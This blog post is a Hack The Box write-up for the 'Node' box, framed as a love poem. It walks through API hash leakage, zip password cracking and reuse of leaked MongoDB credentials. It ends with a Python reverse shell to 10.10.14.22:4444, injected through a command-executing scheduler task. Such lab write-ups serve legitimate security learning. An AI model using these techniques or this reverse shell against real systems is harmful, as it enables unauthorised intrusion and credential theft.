```yaml
---
layout: post
title:  "Hack the Box - A Love Node"
date:   2018-03-07 16:16:01 -0600
categories: hackthebox nosql webapp reversing mongo mongodb hacking writeup
---
```


<img class="header-img" src="{{ "img/node/home.png" | relative_url }}" />

Node was a special box to me. It was a special box because it was my first "first blood", and it got me truely addicted to (https://hackthebox.eu)[hackthebox]. In light of this, I'm going mix things up and bit and make the following writeup a love note to Node:

Oh, Node,
it has been some time since we last spoke.
It's been a while since my sweet TCP packets,
probed your open ports.

{% highlight shell %}
root@hack ~# nmap -p- -T4 node.htb
3000/tcp    open  
{% endhighlight %}

You rebuffed my attempts on 80. On 8080, 443, and more.
But you invited me into your space, into yourplace, into port 3000.
Yes, you did.

I dug into your deepest secrets.
And into the APIs which b(urp)equeathed your user sequence.
I saw you clearly, inside and out; cut through your defences:
turned `/api/users/latest` to `/api/users` and saw your shy response:

{% highlight shell %}
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: application/json; charset=utf-8
Content-Length: 611
ETag: W/"263-mJMXKDfX6c4pdWF3bLjHuBIvsM0"
Date: Wed, 07 Mar 2018 13:51:16 GMT
Connection: close

[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true},{"_id":"59a7368398aa325cc03ee51d","username":"tom","password":"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240","is_admin":false},{"_id":"59a7368e98aa325cc03ee51e","username":"mark","password":"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73","is_admin":false},{"_id":"59aa9781cced6f1d1490fce9","username":"rastating","password":"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0","is_admin":false}]
{% endhighlight %}

Were these your past lovers? I cared not.
But an `admin` flag, is an `admin` flag, and must be followed. Its hash looked weak.
Indeed, it was. (https://crackstation.net)["manchester"].

With each keystroke, we grew closer
m.y.P.1.4.c.e.A.d.m.1.n.A.c.c.0.u.N.T.
m.a.n.c.h.e.s.t.e.r.

You offered me your memories encoded in mystery. I was undeterred.

{% highlight shell %}
root@hack ~/Downloads# base64 -d myplace.backup > myplace.what
root@hack ~/Downloads# file myplace.what
myplace.what: Zip archive data, at least v1.0 to extract
{% endhighlight %}

But still, you resisted me.

{% highlight shell %}
root@hack ~/Downloads# unzip myplace.what
Archive:  myplace.what
  creating: var/www/myplace
[myplace.what] var/www/myplace/package-lock.json password:
{% endhighlight %}

{% highlight shell %}
root@hack ~/Downloads# fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt myplace.what
PASSWORD FOUND!!!!: pw == magicword
root@hack ~/Downloads# unzip -P magicword myplace.what
rock@hack ~/Downloads# head -n 11 var/www/myplace/app.js | tail -n 1
const url        = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
{% endhighlight %}

Who was this `mark`?" I wondered. What boundries had you let him pass?
Nevermind. I had his secret, and he made a mistake, leaving this behind.

{% highlight shell %}
root@hack ~# ssh mark@node.htb
mark@node ~$
{% endhighlight %}

Node. My sweet Node. I felt so close to you. 
We were separated by miles and miles, but I could feel your circuits responding to my touch.
I explored every inch of you, and found a special spot:

{% highlight shell %}
root@hack ~# ps aux
...
tom     1426    0.0 5.1 1009080 31096   ?   ?   Ssl Mar04   0:31    /usr/bin/node /var/scheduler/app.js
...
mark@node:~$ cat /var/scheduler/app.js
const exec        = require('child_process').exec;
const MongoClient = require('mongodb').MongoClient;
const ObjectID    = require('mongodb').ObjectID;
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/scheduler?authMechanism=DEFAULT&authSource=scheduler';

MongoClient.connect(url, function(error, db) {
  if (error || !db) {
    console.log('[!] Failed to connect to mongodb');
    return;
  }

  setInterval(function () {
    db.collection('tasks').find().toArray(function (error, docs) {
      if (!error && docs) {
        docs.forEach(function (doc) {
          if (doc) {
            console.log('Executing task ' + doc._id + '...');
            exec(doc.cmd);
            db.collection('tasks').deleteOne({ _id: new ObjectID(doc._id) });
          }
        });
      }
      else if (error) {
        console.log('Something went wrong: ' + error);
      }
    });
  }, 30000);

});
{% endhighlight %}

You accepted me, and I inserted my hopes and dreams....

{% highlight shell %}
mark@node ~$ cat << EOM > /tmp/over.py
> import socket,subprocess,os
> s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
> s.connect(('10.10.14.22',4444))
> os.dup2(s.fileno(),0)
> os.dup2(s.fileno(),1)
> os.dup2(s.fileno(),2)
> p=subprocess.call(['/bin/sh','-i'])
> EOM
mark@node ~$ mongo
> use scheduler
switched to db scheduler
> db.auth("mark","5AYRft73VtFpc84k")
1
> db.tasks.insert({"_id": 1, "cmd":"python /tmp/over.py"})
WriteResult({ "nInserted" : 1 })
{% endhighlight %}

{% highlight shell %}
root@hack ~# nc -lvvvp 4444
$ whomai
tom
{% endhighlight %}

...and I tasted your luscious blood. 

{% highlight shell %}
root@hack ~# nc -lvvvp 4444
$ whomai
tom
{% endhighlight $}

You still had more secrets to find, like `/usr/local/bin/backup`.
In reversing it, I `unzip`ed your last garment -
unveiling your inner soul, `root.txt`, in whole.
You were so beautiful, so clever, and so true.

How I loved your mysteries -- unfortunately, there were more boxes to do.

your dearest,
overcast

p.s. if you'd like to know how `/usr/local/bin/backup` fell to my wiles,
look to `ltrace` 


_fin_

